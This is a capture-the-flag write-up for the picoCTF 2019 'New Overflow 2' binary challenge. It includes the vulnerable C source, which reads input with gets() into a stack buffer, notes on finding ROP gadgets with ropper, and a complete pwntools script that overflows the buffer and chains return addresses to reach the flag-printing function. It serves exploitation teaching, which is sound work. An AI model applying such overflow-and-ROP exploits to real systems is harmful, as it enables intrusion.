


[Back](PicoFrontPage.md)

# New Overflow 2
---

### Intro
* You'll need to understand 64-bit calling conventions for this challenge

### Tools Used
* GEF-GDB
* Pwntools
* Favourite text editor
* Ropper

### Source Code
```c
bool win1 = false;
bool win2 = false;

void win_fn1(unsigned int arg_check) {
  if (arg_check == 0xDEADBEEF) {
    win1 = true;
  }
}

void win_fn2(unsigned int arg_check1, unsigned int arg_check2, unsigned int arg_check3) {
  if (win1 && \
      arg_check1 == 0xBAADCAFE && \
      arg_check2 == 0xCAFEBABE && \
      arg_check3 == 0xABADBABE) {
    win2 = true;
  }
}

void win_fn() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  if (win1 && win2) {
    printf("%s", flag);
    return;
  }
  else {
    printf("Nope, not quite...\n");
  }


  

}

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Can you match these numbers?");
  vuln();
  return 0;
}

```

#### Important Points:
* We have to set both bool variables (win1 and win2) to true so that the `win_fn()` function will print out the flag
* The `flag()` function

### Analysis
For this solution, you can actually just use the same method and script to solve it because of the `flag()` function being left in (most probably an accident).

I decided to go a different route and solve it through return-oriented programming. 
First, I tried to `pop` the arguments into the appropriate registers. 

To search for relevant ROP instructions I used ropper:
`ropper -f ./vuln`
To search for specific ROP instructions:
`ropper -f ./vuln --search "Enter instruction here"`

E.g. `ropper -f ./vuln --search "pop rdi"`

<!-- Insert pop rdi image here -->


However, I could not find a relevant instruction that included the `rbx` register.
So, I tried to skip directly to the addresses that set `win1` and `win2` variables to `true`.

<!-- Insert Disassembler image here -->


<!-- Insert Disassembler image here -->


I chained a bunch of `ret` instructions with the appropriate addresses and devised the appropriate script to execute.

### Exploit

Final script:

```python
from pwn import *

p = process('./vuln')

# variables
win1 = 0x400777 # win1 = true
win2 = 0x4007b4 # win2 = true
ret = 0x40028d # ret instruction
win_fn = 0x4007be # win_fn function address

#payload
payload = b'A'*72
payload += p64(ret)
payload += p64(win1)
payload += p64(ret)
payload += p64(win2)
payload += p64(ret)
payload += p64(win_fn)

# receive until character
p.recvuntil(b'?')

# send payload as one line
p.sendline(payload)

# get a shell
p.interactive()
```

To run it through the pico2019 server you'll need the `ssh` feature:
```python
s = ssh(host='2019shell1.picoctf.com', user='YourUsername', password='YourPassword')
p = s.process('AbsolutePathToProgram', cwd='TheWorkingDirectoryOfProgram')
```

Run the script and you should win.

[New Overflow 1](newoverflow1.md)
